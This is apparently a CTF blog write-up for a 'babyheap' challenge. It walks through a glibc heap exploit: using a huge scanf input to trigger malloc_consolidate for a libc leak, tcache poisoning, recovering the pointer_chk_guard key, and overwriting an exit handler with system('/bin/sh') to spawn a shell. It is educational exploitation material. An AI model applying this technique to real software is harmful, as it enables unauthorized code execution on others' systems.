




import Callout from '../../../components/Callout.astro';

Let's tackle the next chapter of babyheap, this one is a bit more exotic...
# scanf and black magic
Let’s examine the menu’s `scanf` input function.  
**Question:** how can you send it an arbitrarily long number without triggering a buffer overflow?  
**Answer:** it uses the heap.
## Ocean of scanf

```c
//babyheap main function
printf("Menu:\n1) Create\n2) Read\n3) Update\n4) Delete\n0) Quit\n> ");
if ( (unsigned int)__isoc99_scanf(" %d", &v4) != 1 )
{
	puts("Invalid input");
	exit(0);
}
```

But if `scanf()` always uses the heap then why don't we see tcache chunks in the free list after every execution? To understand what is going on, let's start `gdb` and set a breakpoint at `*malloc`.
If we send 42 to scanf, malloc doesn't get called, but when we send a very big number, the program breaks at a malloc call! Using `finish` we can exit the malloc call and see the function that executes it:

```python
   0x7ffff7ca9a3b <__GI___libc_scratch_buffer_grow_preserve+107>:       call   QWORD PTR [rip+0x15f597]        # 0x7ffff7e08fd8 (malloc)
=> 0x7ffff7ca9a41 <__GI___libc_scratch_buffer_grow_preserve+113>:       mov    rdi,rax
```

`libc_scratch_buffer_grow_preserve()` Is our perpetrator then, but let's step back and follow the implementation of `vfscanf()`: after "%d" gets read by vfscanf, it enters a loop where every iteration a char is taken from stdin using `incchr()` and moves the character into a _charbuffer_ by calling `char_buffer_add()` till an EOF is found or its width becomes zero. 

```c
//glibc internals https://elixir.bootlin.com/glibc/glibc-2.42.9000/source/stdio-common/vfscanf-internal.c#L1823

while (c != EOF && width != 0)
{
	... a LOT of stuff ...	
	
	char_buffer_add (&charbuf, c); <-- wrapper around wrapper around grow_preserve
	if (width > 0)
		--width;

	c = inchar ();
}
```

It then adds a zero byte at the end to transform the number into a string and executes `__strtol_internal`, this function transforms the string into a **long integer**.

```c
//glibc internals https://elixir.bootlin.com/glibc/glibc-2.42.9000/source/stdio-common/vfscanf-internal.c#L1932

/* Convert the number.  */
char_buffer_add (&charbuf, L_('\0'));
if (char_buffer_error (&charbuf))
{
  ... error stuff ...
}
if (need_longlong && (flags & LONGDBL))
{
  ... if a longlong is needed stuff ...
}
else
{
  if (flags & NUMBER_SIGNED)
num.l = __strtol_internal                                    //<-- HERE
  (char_buffer_start (&charbuf), &tw, base, flags & GROUP);
  else
num.ul = __strtoul_internal
  (char_buffer_start (&charbuf), &tw, base, flags & GROUP);
}
```

But by setting "%d" didn't we want to save an integer? Why is the string converted into a long integer? Don't worry, shortly after the above code the number gets cast into the right format and moved into the argument given to `scanf()`:

```c
//glibc internals https://elixir.bootlin.com/glibc/glibc-2.42.9000/source/stdio-common/vfscanf-internal.c#L1961
 
if (!(flags & SUPPRESS))
{
	if (flags & NUMBER_SIGNED)
	{
	  if (need_longlong && (flags & LONGDBL))
		*ARG (LONGLONG int *) = num.q;
	  else if (need_long && (flags & LONG))
		*ARG (long int *) = num.l;
	  else if (flags & SHORT)
		*ARG (short int *) = (short int) num.l;
	  else if (!(flags & CHAR))
		*ARG (int *) = (int) num.l;                    //<-- long to int and stored in the
	  else                                             //    argument given to scanf
		*ARG (signed char *) = (signed char) num.ul;
	}
	else
	{
	  ... same as above but unsigned ...
	}
	
	... more stuff...
}
```

Now we know how a number gets transformed into an integer. But we **ignored a key aspect** of this code: `char_buffer_add` moves characters from stdin into a buffer, so let's understand how the function works.
This function is a wrapper around `char_buffer_add_slow()` which uses a **scratch_buffer** to save data:

```c
//glibc internals https://elixir.bootlin.com/glibc/glibc-2.42.9000/source/include/scratch_buffer.h#L66
struct scratch_buffer {
  void *data;    /* Pointer to the beginning of the scratch area.  */
  size_t length; /* Allocated space at the data pointer, in bytes.  */
  union { max_align_t __align; char __c[1024]; } __space;
};
```

This struct contains a **pointer** to a writable buffer (`*data`), the **length** of said buffer (`length`), and the **1024 byte memory area** itself (`__space`). 
In the initialization process of the `scratch_buffer` the address of the memory area gets stored in `*data`, if more than 1024 bytes must be stored, `char_buffer_add_slow()` will call `__libc_scratch_buffer_grow_preserve`, this functions allocates a new buffer in the heap with double the size and modifies the `*data` pointer and the length.
This is why malloc gets called only when big numbers are sent to `scanf`, we need more than 1024 characters to trigger the heap allocation.

```c
//glibc internals
__libc_scratch_buffer_grow_preserve (struct scratch_buffer *buffer)
{
	size_t new_length = 2 * buffer->length; <--- 1024 * 2
	void *new_ptr;
	
	if (buffer->data == buffer->__space.__c)
    {
	/* Move buffer to the heap.  No overflow is possible because
	buffer->length describes a small buffer on the stack.  */
	new_ptr = malloc (new_length);                   //<-- HERE WE BREAKED
	if (new_ptr == NULL)
		return false;
	memcpy (new_ptr, buffer->__space.__c, buffer->length);
    }
	else
    {
	/* Buffer was already on the heap.  Check for overflow.  */
	if (__glibc_likely (new_length >= buffer->length))
		new_ptr = realloc (buffer->data, new_length);
    else
	{
		... error stuff ...
	}

    if (__glibc_unlikely (new_ptr == NULL))
	{
		/* Deallocate, but buffer must remain valid to free.  */
		free (buffer->data);
		scratch_buffer_init (buffer);
		return false;
	}
    }
    
	/* Install new heap-based buffer.  */
	buffer->data = new_ptr;
	buffer->length = new_length;
	return true;
}
```

Now we know in which situation `malloc` gets called from `scanf`, but how can this be helpful to our purpose of **leaking a libc address pointer?** The scratchpad gets freed after usage and removed from the heap, so how can we maintain a freed chunk in the small or large bins with this knowledge? It seems that our deep dive is not finished yet... enter the depths of malloc.
## Deep into malloc
Looking at the `malloc()` implementation inside `libc`, we notice that if the requested chunk is larger than the biggest chunk size stored in the `smallbins`, `malloc_consolidate()` is called.

```c
//glibc internals
static void *
_int_malloc (mstate av, size_t bytes)
{
	INTERNAL_SIZE_T nb;               /* normalized request size */
	
	... to much stuff here, like a loooot ...
	
	if (in_smallbin_range (nb))
	{
	    ... a bit of stuff here ...
	} 
    else
    {
	    /*
	     If this is a large request, consolidate fastbins before continuing.
	     While it might look excessive to kill all fastbins before
	     even seeing if there is space available, this avoids
	     fragmentation problems normally associated with fastbins.
	     [...]
		*/
		
	    idx = largebin_index (nb);
	    if (have_fastchunks (av))
        malloc_consolidate (av);     //<--- oh look, malloc_consolidate
    }
    
    ... a league of legends lootbox full of stuff here ...
}
```
The macro `in_smallbin_range(nb)` is a simple check that returns if the size of the chunk is small enough to stay in smallbins, by looking below we can calculate the smallbin max chunk size as 0x400.

```c
//glibc internals
#define NBINS             128
#define NSMALLBINS         64
#define SMALLBIN_WIDTH    MALLOC_ALIGNMENT ` \\ normally 16
#define SMALLBIN_CORRECTION (MALLOC_ALIGNMENT > CHUNK_HDR_SZ)
#define MIN_LARGE_SIZE    ((NSMALLBINS - SMALLBIN_CORRECTION) * SMALLBIN_WIDTH)

#define in_smallbin_range(sz)  \
  ((unsigned long) (sz) < (unsigned long) MIN_LARGE_SIZE)
```

So what happens if we create a chunk bigger than 0x400 bytes? To answer that, we need to understand what `malloc_consolidate` does. 

<Callout type="info">
`malloc_consolidate()` in glibc is a function that **coalesces** small freed chunks from the fastbins into the **unsortedbin**. 
Normally, when a small chunk is freed and doesnt enter tcache, it goes into fastbin without being merged with adjacent free chunks to keep `free()` fast. 
Over time, this can fragment memory. When `malloc()` needs a lot of space (when allocating a largebin for example) it calls `malloc_consolidate()`
</Callout>
This means that if we generate a fastbin chunk and trigger in some way `malloc_consolidate` the generated fastbin chunk gets moved into the **smallbin** even if it's a small chunk. Reading this chunk gives us a libc leak. 
But as we discovered before, to execute `malloc_consolidate` we need to allocate a chunk of size 0x400 or greater, this is where our scanf trick comes handy.
## Putting it all together.

We start by generating eight chunks (7 tcache + 1 fastbin) and free them in a particular order to guarantee that the **fastbin chunk** is **not** the last one in heap memory. Else, the fastbin chunk would simply be trimmed by malloc_consolidate.



Now we can apply the knowledge gotten from scanf and malloc, let's allocate a chunk big enough to trigger a `malloc` in `scanf`, and greater than the smallbin max size to trigger `malloc_consolidate`.
To achieve this we can send `b"1"*0x500` to `scanf`, this is bigger than `0x400` so both `scratch_buffer_grow_preserve()` and `malloc_consolidate()` get triggered. The **fastbin** chunk gets moved to the **unsortedbin** and then into the **smallbin** list once the big chunk gets freed after scanf got called.



by using `chunk_read()` on the first chunk we can leak the libc address!!!!!!!
# Exploiting with exit_func overwrite
Looking at the `exit()` function, we notice that it is only a wrapper around `__run_exit_handlers()`.

```c
//glibc internals
void exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true, true);
}
```

This function executes so-called `exit_functions` saved into the `__exit_funcs` global structure. Exit functions can also be registered by the user using `atexit()`.

```c
//example snippet
#include <stdio.h>
#include <stdlib.h>

void cleanup1(void) { puts("cleanup1"); }
void cleanup2(void) { puts("cleanup2"); }

int main(void) {
    atexit(cleanup1);
    atexit(cleanup2);
    printf("Exiting...\n");
    return 0; // triggers cleanup2 then cleanup1
}
```

So, what exactly is an _exit_function_?  
Looking at the code below, we can see that an `exit_function` is a **struct** that **wraps a function call**. The `flavor` field indicates that there are multiple types of exit functions that take different combinations of arguments.

```c
//glibc internals
struct exit_function
  {
    long int flavor;
    union
    {
		void (*at) (void);
		struct
		{
		    void (*fn) (int status, void *arg);
		    void *arg;
		} on;
		struct
		{
		    void (*fn) (void *arg, int status);
		    void *arg;
		    void *dso_handle;
		} cxa;
    } func;
  };
```

Looking at the snippet `run_exit_handlers()` below we can see how the flavors change the execution of an exit function:

- **ef_free**: slot is dead, ignore
- **ef_us**: nothing happens
- **ef_on**: status code as first argument and user supplied argument as second one
- **ef_at**: function without arguments
- **ef_cxa**: the important one, **first argument is user supplied** and second one is the status code.

<Callout type="info">
By looking at the example above you can notice that `atexit()` only registers **ef_at** functions, if you want to register **ef_on** functions there is a GNU extensions that implements `on_exit()`.
</Callout>
**Question:** Why is `ef_cxa` the best flavor?
**Answer:** We can overwrite the function pointer with `system()` and set the first argument as `/bin/sh`

```c
//glibc internals
__run_exit_handlers (int status, struct exit_function_list **listp,
			bool run_list_atexit, bool run_dtors)
{

...

while (cur->idx > 0)
	{
	struct exit_function *const f = &cur->fns[--cur->idx];
	const uint64_t new_exitfn_called = __new_exitfn_called;
	
	__libc_lock_unlock (__exit_funcs_lock);
	switch (f->flavor)
	{
		void (*atfct) (void);
		void (*onfct) (int status, void *arg);
		void (*cxafct) (void *arg, int status);
		
		case ef_free:
		case ef_us:
			break;
	    case ef_on:
			onfct = f->func.on.fn;
			onfct (status, f->func.on.arg);
			break;
	    case ef_at:
			atfct = f->func.at;
			atfct ();
			break;
	    case ef_cxa:
			f->flavor = ef_free;
			cxafct = f->func.cxa.fn;
			cxafct (f->func.cxa.arg, status); // <-- cxa is executed here 
			break;
	}
	  __libc_lock_lock (__exit_funcs_lock);
	  if (__glibc_unlikely (new_exitfn_called != __new_exitfn_called))
	    goto restart;
	}

...

}
```

## Putting it all together
In practice, we are going to inspect the **exit handler array entries**, look for an exit handler with `flavor == 4 (ef_cxa)` to overwrite with a pointer to `system()`, and then set `/bin/sh` as its first argument. Getting a shell from there is as easy as executing the binary and exiting.
### Step 1: Getting the \_\_exit_funcs struct

Using our _libc leak_ obtained before, we get the `__exit_funcs` struct by summing the offset of the struct with the libc base address. libc uses the symbol `initial` to point at the exit_funcs, if needed, bigger arrays can be generated to extend the number of exit functions that can be registered, this one is the initial array that always exists:

```python
__exit_funcs = libc_base + libc.symbols.initial
```

We then overwrite the first **tcache forward pointer** with this address, remember that when malloc is called the first 16 bytes get zeroed out. 
After calling `malloc()` twice, the second call will return a pointer to the `initial` struct, now we can edit and read from it.

```c
pwndbg> tele 0x7f3046204fc0 <-- libc_base + initial offset
00:0000│  0x7f3046204fc0 (initial) ◂— 0
01:0008│  0x7f3046204fc8 (initial+8) ◂— 1 <-- number of registered funcs
02:0010│  0x7f3046204fd0 (initial+16) ◂— 4 <-- flavor
03:0018│  0x7f3046204fd8 (initial+24) ◂— 0x91b97d6d433887e0 <-- function addrs
04:0020│  0x7f3046204fe0 (initial+32) ◂— 0 <-- argument
... ↓     3 skipped
```

Looking at the output from pwndbg above, we notice only one entry in the array, fortunately this is a `ef_cxa` entry, now we only need to replace it with the `system()` function.
### Step 2: Replacing function with system()
Do you notice something wrong with the function address in the snipped above? That's **not** an address. When an atexit function gets registered, its address is xored with a key called **pointer_chk_guard** and then rotated left by 17 bits (0x11).  
$$
\text{mangled\_address} = \texttt{rol}(\text{address} \oplus\ \text{key} , \text{0x11})
$$
$$
\text{address} = \texttt{ror}(\text{mangled\_address}, \text{0x11})\ \oplus\ \text{key}
$$
But by performing a `ROR` (rotate right) by 0x11 bits on the mangled address and then `XOR`ing the result with the real address, we can easily recover the key.
$$
\text{key} = \texttt{ror}(\text{mangled\_address}, \text{0x11})\ \oplus \ \text{address}
$$
Once we have the key, we can replace the old mangled function address with the mangled  `system()` address and overwrite the argument `0` with `/bin/sh\0`.

But how do we get the unmangled address to recover the key?  
Set a breakpoint at `exit()` and let the program hit it, then step till you find the `ROR` and `XOR` instructions. After the runtime demangles the function pointer you can read the real pointer. 
Unfortunately, in our case the registered functions position is **not** relative to `libc` but to the dynamic loader (`ld`). Fortunately, the `libc` contains pointers into the loader mapping, so you can find those with `p2p libc ld` and use them to resolve the loader base.



Using the same tcache poisoning technique we applied to read and modify the exit function array, we can also leak the loader’s address.  
We’ll use the last pointer in the output from `p2p`, since `malloc()` writes directly into the allocated area before being able to read meaning we need a writable leak.  
Once again, we overwrite the first tcache chunk’s forward pointer with this address, allocate two chunks, and then read from the second one to obtain the loader leak.

<Callout type="info">
The **pointer_chk_guard** is an element of the **Thread Control Block** (TCB) stored inside the **Thread Local Storage** (TLS). TLS is a fixed per-thread storage whose address is saved in a special register. Its position is randomized and very difficult to leak.



The first non address value you see is our **canary** (`stack_chk_guard`), you can notice the zero byte at the end, the value stored directly after is our **key** (`pointer_chk_guard`).

But `pointer_chk_guard` is derived from somewhere else:

When the kernel loads an executable, by calling `execve`, it writes a key-value structure called **Auxiliary Vector** (auxv) into memory, here many critical values are saved, you can print them by setting the `LD_SHOW_AUXV=1` environment variable.
```bash
❯ LD_SHOW_AUXV=1 gdb
AT_SYSINFO_EHDR:      0x7fba40212000
AT_MINSIGSTKSZ:       3376
AT_HWCAP:             0x178bfbff
AT_PAGESZ:            4096
AT_CLKTCK:            100
AT_PHDR:              0x562b9823f040
AT_PHENT:             56
AT_PHNUM:             15
AT_BASE:              0x7fba40214000
AT_FLAGS:             0x0
AT_ENTRY:             0x562b982f3ac0
AT_UID:               1000
AT_EUID:              1000
AT_GID:               1000
AT_EGID:              1000
AT_SECURE:            0
AT_RANDOM:            0x7ffee4809839
AT_HWCAP2:            0x2
AT_EXECFN:            /usr/bin/gdb
AT_PLATFORM:          x86_64
AT_RSEQ_FEATURE_SIZE: 28
AT_RSEQ_ALIGN:        32
```
 looking at the `AT_RANDOM` entry, we see that it points to the stack. The kernel copies 16 bytes from kernel entropy into the stack at initialization: the first 8 bytes are our canary, the second giant word is our **pointer_chk_guard**. 
But why are the values copied into the TCB if they are saved on the stack too? Because every thread needs to access this values.
</Callout>
### Step 3: exiting gracefully 

Now we have everything to get the key, by overwriting the struct with the mangled `system()` address and `/bin/sh` as a
rgument we simply need to run the program and exit to get a shell.

Still questions about `__exit_functions`? Here is a link to a nice [blogpost](https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html).
